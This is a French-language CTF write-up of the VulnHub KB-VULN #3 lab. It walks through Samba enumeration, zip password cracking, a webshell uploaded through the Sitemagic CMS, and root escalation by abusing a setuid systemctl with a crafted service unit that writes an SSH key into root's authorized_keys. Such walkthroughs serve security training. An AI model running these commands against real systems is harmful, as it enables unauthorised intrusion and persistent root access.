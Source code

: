 # Solution du CTF KB-VULN #3 de VulnHub

Kyoto Frift
-----------

Ça manque un peu d'originalité mais comme le précédent on va partir sur du Samba :  

```plain
Nmap scan report for 192.168.56.7
Host is up (0.00017s latency).
Not shown: 65531 closed tcp ports (reset)
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 cb:04:f0:36:3f:42:f7:3a:ce:2f:f5:4c:e0:ab:fe:17 (RSA)
|   256 61:06:df:25:d5:e1:e3:47:fe:13:94:fd:74:0c:85:00 (ECDSA)
|_  256 50:89:b6:b4:3a:0b:6e:63:12:10:40:e2:c4:f9:35:33 (ED25519)
80/tcp  open  http        Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
MAC Address: 08:00:27:CA:64:3B (Oracle VirtualBox virtual NIC)
Service Info: Host: KB-SERVER; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-time: 
|   date: 2021-12-07T21:14:52
|_  start_date: N/A
|_nbstat: NetBIOS name: KB-SERVER, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: kb-server
|   NetBIOS computer name: KB-SERVER\x00
|   Domain name: \x00
|   FQDN: kb-server
|_  System time: 2021-12-07T21:14:52+00:00
```

Hack-Me ? Oui oui !  

```bash
$ smbclient -U "" -N -L //192.168.56.7

        Sharename       Type      Comment
        ---------       ----      -------
        Files           Disk      HACK ME
        IPC$            IPC       IPC Service (Samba 4.7.6-Ubuntu)
SMB1 disabled -- no workgroup available

$  smbclient -U "" -N //192.168.56.7/Files
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Fri Oct  2 20:11:49 2020
  ..                                  D        0  Fri Oct  2 19:12:00 2020
  website.zip                         N 38936127  Fri Oct  2 20:11:41 2020

                14380040 blocks of size 1024. 9540188 blocks available
```

Quand on tente de décompresser le zip ce dernier réclame un mot de passe. On a recours à l'utilitaire *zip2john* qui génère un hash aussi long qu'une *Chevrolet Bel Air*. Je vous fait grâce de cet output.  

Ça se casse bien :  

```plain
$ ./john --wordlist=rockyou.txt  hash.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
porchman         (website.zip)     
1g 0:00:00:02 DONE (2021-12-07 22:19) 0.3861g/s 1764Kp/s 1764Kc/s 1764KC/s porno:O..popchie91
```

L'archive semble être une backup de l'install du CMS [Sitemagic](https://sitemagic.org/). On trouve ainsi des identifiants dans le fichier *config.xml.php* :  

```php
<?php exit(); ?>                                                                                                       
<?xml version="1.0" encoding="ISO-8859-1"?>                                                                            
<entries>                                                                                                              
<!-- REQUIRED, throws custom exception if missing -->                                                                  
    <entry key="Username" value="admin"/>                                                                              
<!-- REQUIRED, throws custom exception if missing -->                                                                  
    <entry key="Password" value="jesse"/>
```

On a aussi un numéro de version dans *metadata.xml* :  

```html
<entry key="Release" value="4.4.2" />
```

Il existe un exploit d'upload pour cette version [sur exploit-db](https://www.exploit-db.com/exploits/48788). L'exploit nécessite une authentification préalable et ça tombe bien on a des identifiants.  

L'intuition m'amène sur *http://192.168.56.7/sitemagic/* et les identifiants passent.  

Pas besoin d'exploit pour cette vulnérabilité : on trouve facilement dans l'interface la fonctionnalité d'upload et elle ne dispose d'aucune restriction sur le type de fichier.  

Par défaut les fichiers sont placés dans le dossier *images* donc mon webshell se retrouve à *http://192.168.56.7/sitemagic/files/images/shell.php*.  

Dokyo Trift
-----------

Un utilisateur heisenberg est présent sur le système. Il possède notamment le premier flag (*6346c6d19751f1a3195f1e4b4b609544*) :  

```plain
drwxr-xr-x 4 heisenberg heisenberg 4096 Oct  2  2020 .
drwxr-xr-x 3 root       root       4096 Oct  2  2020 ..
-rw-r--r-- 1 heisenberg heisenberg  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 heisenberg heisenberg 3771 Apr  4  2018 .bashrc
drwx------ 2 heisenberg heisenberg 4096 Oct  2  2020 .cache
drwx------ 3 heisenberg heisenberg 4096 Oct  2  2020 .gnupg
-rw-r--r-- 1 heisenberg heisenberg  807 Apr  4  2018 .profile
-rw-r--r-- 1 heisenberg heisenberg    0 Oct  2  2020 .sudo_as_admin_successful
-rw-r--r-- 1 root       root         33 Oct  2  2020 user.txt
```

Cette fois pas d'environnement Docker. *LinPEAS* remonte la faille sudo que j'ai mentionné sur d'autres CTFs :  

```plain
[+] [CVE-2021-3156] sudo Baron Samedit

   Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
   Exposure: probable
   Tags: mint=19,[ ubuntu=18|20 ], debian=10
   Download URL: https://codeload.github.com/blasty/CVE-2021-3156/zip/main

[+] [CVE-2021-3156] sudo Baron Samedit 2

   Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
   Exposure: probable
   Tags: centos=6|7|8,[ ubuntu=14|16|17|18|19|20 ], debian=9|10
   Download URL: https://codeload.github.com/worawit/CVE-2021-3156/zip/main
```

Mais le CTF est un peu ancien donc l'escalade de privilèges attendue n'est certainement pas liée à cet exploit.  

En revanche le programme */bin/systemctl* est setuid et setgid root. Il existe une entrée pour ce programme [sur GTFOBins](https://gtfobins.github.io/gtfobins/systemctl/) mais elle se base sur un fichier placé dans */tmp* alors que systemctl montre une certaine aversion avec ce dossier (voir par exemple [ici](https://ivanitlearning.wordpress.com/2020/10/14/hackthebox-jarvis/)).  

Je me suis mis sous la racine web où j'avais un accès en écriture et commencé par un petit test :  

```bash
www-data@kb-server:/var/www/html/sitemagic$ cat yolo.service 
[Unit]
Description=root

[Service]
Type=oneshot
ExecStart=/usr/bin/touch  /var/www/html/sitemagic/hi_there.txt

[Install]
WantedBy=multi-user.target

www-data@kb-server:/var/www/html/sitemagic$ systemctl link /var/www/html/sitemagic/yolo.service 
Created symlink /etc/systemd/system/yolo.service → /var/www/html/sitemagic/yolo.service.

www-data@kb-server:/var/www/html/sitemagic$ systemctl enable --now yolo.service
Created symlink /etc/systemd/system/multi-user.target.wants/yolo.service → /var/www/html/sitemagic/yolo.service.

www-data@kb-server:/var/www/html/sitemagic$ systemctl start yolo.service

www-data@kb-server:/var/www/html/sitemagic$ systemctl status yolo.service
● yolo.service - root
   Loaded: loaded (/var/www/html/sitemagic/yolo.service; enabled; vendor preset: enabled)
   Active: inactive (dead) since Wed 2021-12-08 08:14:54 UTC; 1min 23s ago
  Process: 8900 ExecStart=/usr/bin/touch /var/www/html/sitemagic/hi_there.txt (code=exited, status=0/SUCCESS)
 Main PID: 8900 (code=exited, status=0/SUCCESS)

Dec 08 08:14:54 kb-server systemd[1]: Starting root...
Dec 08 08:14:54 kb-server systemd[1]: Started root.

www-data@kb-server:/var/www/html/sitemagic$ ls -l hi_there.txt 
-rw-r--r-- 1 root root 0 Dec  8 09:14 hi_there.txt
```

J'obtiens bien mon fichier créé par *root* :)  

Je modifie le service pour que la commande copie ma clé publique SSH sur */root/.ssh/authorized\_keys* et je relance. Systemctl voit une modification et demande un rechargement :  

```bash
www-data@kb-server:/var/www/html/sitemagic$ systemctl start yolo.service
Warning: The unit file, source configuration file or drop-ins of yolo.service changed on disk. Run 'systemctl daemon-reload' to reload units.

www-data@kb-server:/var/www/html/sitemagic$ systemctl daemon-reload
www-data@kb-server:/var/www/html/sitemagic$ systemctl start yolo.service
www-data@kb-server:/var/www/html/sitemagic$ systemctl status yolo.service
● yolo.service - root
   Loaded: loaded (/var/www/html/sitemagic/yolo.service; enabled; vendor preset: enabled)
   Active: inactive (dead) since Wed 2021-12-08 08:22:05 UTC; 4s ago
  Process: 16351 ExecStart=/bin/cp /var/www/html/sitemagic/my_key.pub /root/.ssh/authorized_keys (code=exited, status=0/SUCCESS)
 Main PID: 16351 (code=exited, status=0/SUCCESS)

Dec 08 08:22:05 kb-server systemd[1]: Starting root...
Dec 08 08:22:05 kb-server systemd[1]: Started root.

root@kb-server:~# cat root.txt 

  ####   ####  #    #  ####  #####    ##   ##### #    # #        ##   ##### #  ####  #    #  ####     
 #    # #    # ##   # #    # #    #  #  #    #   #    # #       #  #    #   # #    # ##   # #        
 #      #    # # #  # #      #    # #    #   #   #    # #      #    #   #   # #    # # #  #  ####     
 #      #    # #  # # #  ### #####  ######   #   #    # #      ######   #   # #    # #  # #      #    
 #    # #    # #   ## #    # #   #  #    #   #   #    # #      #    #   #   # #    # #   ## #    #    
  ####   ####  #    #  ####  #    # #    #   #    ####  ###### #    #   #   #  ####  #    #  #### 

                                            kernelblog.org    

49360ba4cbe27a1b900df25b247315d7
```


*Published December 08 2021 at 12:10*